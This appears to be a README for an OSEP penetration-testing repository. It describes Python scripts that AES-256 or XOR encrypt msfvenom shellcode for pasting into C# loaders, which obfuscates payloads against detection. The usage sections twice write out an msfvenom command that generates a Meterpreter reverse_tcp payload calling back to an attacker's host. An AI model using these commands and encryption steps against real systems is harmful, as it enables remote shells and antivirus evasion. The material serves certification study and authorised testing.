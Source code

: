 # OSEP
This will eventually become an OSEP code repository. 
For now I am placing 2 python scripts to help out with encrypting your shellcode.  
You have the option of using aes256 OR xor depending what you are using for your c# shellcode!


I've seen other repos that made the same tool but in c#, I figured i'd try and do it in python and make it a bit easier to copy and paste over to your code!



  ## AES256enc.py What does it do.
This Python script encrypts c# shellcode using AES (Advanced Encryption Standard) in CBC (Cipher Block Chaining) mode.  
It generates a random AES key and IV (Initialization Vector), encrypts the shellcode, and outputs the encrypted data in a format compatible with C# applications.

**Output Results:**
- C# AES Key: The AES encryption key in xx-xx format.
- C# IV Key: The initialization vector (IV) in xx-xx format.
- C# Encrypted Shellcode: A formatted byte array containing the encrypted shellcode and its size, ready to use in C# applications.


## AES256enc.py Requirements
AES256.py uses cryptodome for AES and padding. In order to install you need to run  
`sudo apt update`  
`sudo apt install python3-pycryptodome`


## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 aes256enc.py`
- Shellcode has been formatted to paste into 1 line when you copy it over to visual studio code.
- Copy keys and shellcode into your c# program and enjoy!

  # Xorenc.py what does it do
  This Python script generates a random XOR key and encodes shellcode for use in C# applications. The encoded payload is formatted as a C# byte[] array, ready for integration into your projects.

  ## Features
  - Random XOR Key Generation: Produces a single-byte XOR key for obfuscating shellcode.
  - Shellcode Encoding: Encodes raw shellcode using the generated XOR key.
  - C# Output Formatting: Outputs the encoded payload as a byte[] array, compatible with C#.
 
  ## Usage
- create msfvenom shellcode in csharp format.  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp`
- now copy all shellcode in between {} and place it into buf contents of the script.
-  now run `python3 xorenc.py`
- Shellcode has been formatted to paste as 1 line when you copy it over to visual studio code.
- Copy key and shellcode into your c# program and enjoy!

**DISCLAIMER**

This script is intended for ethical purposes, such as penetration testing, and must comply with legal and ethical guidelines.



